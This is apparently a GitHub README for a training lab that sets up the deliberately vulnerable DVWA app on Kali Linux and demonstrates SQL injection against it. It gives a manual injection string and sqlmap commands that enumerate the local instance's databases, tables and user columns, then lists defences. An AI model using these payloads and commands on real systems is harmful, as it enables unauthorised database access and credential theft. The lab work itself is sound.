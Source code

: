 # SQL Injection Exploitation and Security using DVWA on Kali Linux

## 📌 Project Overview
This project demonstrates how to exploit **SQL Injection** vulnerabilities using **Damn Vulnerable Web Application (DVWA)** on **Kali Linux**. The objective is to understand how attackers extract data from vulnerable databases and how to secure them against such attacks.

DVWA is a deliberately vulnerable web application designed for **learning penetration testing** techniques, particularly focusing on web security flaws like SQL Injection, XSS, and CSRF.

---

## 🛠 Tools Used
To perform SQL Injection attacks and security testing, the following tools are used:

- **Kali Linux** (for penetration testing)
- **DVWA (Damn Vulnerable Web Application)** (target web app)
- **MySQL** (database backend)
- **Burp Suite** (for manual SQL injection testing)
- **SQLMap** (for automated SQL injection attacks)

---

## ⚡ Key Tasks
The following penetration testing activities are performed:

1. **🛠 Setting up DVWA on Kali Linux**
2. **💉 Manually Exploiting SQL Injection**
3. **🔄 Using SQLMap to automate attacks**
4. **📂 Extracting sensitive data from databases**
5. **🛡️ Implementing security measures to prevent SQL injection**

---

## 🚀 How to Run

### ✅ Step 1: Clone DVWA Repository
First, clone the DVWA repository from GitHub:

\`\`\`bash
git clone https://github.com/digininja/DVWA
\`\`\`

Navigate into the DVWA directory:

\`\`\`bash
cd DVWA
\`\`\`

---

### ✅ Step 2: Install Dependencies
Ensure **Apache, PHP, and MySQL** are installed:

\`\`\`bash
sudo apt update
sudo apt install apache2 php php-mysqli mysql-server
\`\`\`

---

### ✅ Step 3: Configure DVWA
Move the DVWA files to the **web root directory**:

\`\`\`bash
sudo mv * /var/www/html/
\`\`\`

Change ownership and set permissions:

\`\`\`bash
sudo chown -R www-data:www-data /var/www/html/
sudo chmod -R 755 /var/www/html/
\`\`\`

---

### ✅ Step 4: Start Apache and MySQL
Enable and start the services:

\`\`\`bash
sudo systemctl start apache2
sudo systemctl enable apache2
sudo systemctl start mysql
sudo systemctl enable mysql
\`\`\`

---

### ✅ Step 5: Configure MySQL Database
Login to MySQL:

\`\`\`bash
sudo mysql -u root -p
\`\`\`

Create a **DVWA database** and user:

\`\`\`sql
CREATE DATABASE dvwa;
CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwauser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
\`\`\`

Update the **DVWA config file** (`/var/www/html/config/config.inc.php`) with:

\`\`\`php
$_DVWA[ 'db_user' ] = 'dvwauser';
$_DVWA[ 'db_password' ] = 'password';
$_DVWA[ 'db_database' ] = 'dvwa';
\`\`\`

---

## 🕵️ SQL Injection Testing

### 🔹 1. Manually Exploiting SQL Injection
Navigate to the **SQL Injection page** in DVWA and enter:' OR '1'='1 --
This should bypass authentication.

---

### 🔹 2. Automating SQL Injection with SQLMap
Use **SQLMap** to extract database information:

\`\`\`bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xxxx" --dbs
\`\`\`

Once the database names are found, extract tables:

\`\`\`bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xxxx" -D dvwa --tables
\`\`\`

Extract **user credentials**:

\`\`\`bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xxxx" -D dvwa -T users --columns
\`\`\`

---

## 🛡️ Preventive Measures
To secure against SQL Injection attacks, implement:

- **Prepared Statements** to prevent malicious SQL queries.
- **Input Validation** to filter dangerous characters.
- **Least Privilege Principle** for database users.
- **Web Application Firewalls (WAFs)** to block malicious payloads.

---

## 🎯 Conclusion
This project highlights how **SQL Injection vulnerabilities** can be exploited and how to **protect applications** against them. Ethical hackers and developers should continuously test and secure their applications.

**🔹 Disclaimer:** This guide is for educational purposes only. Do not attempt these attacks on unauthorized systems.
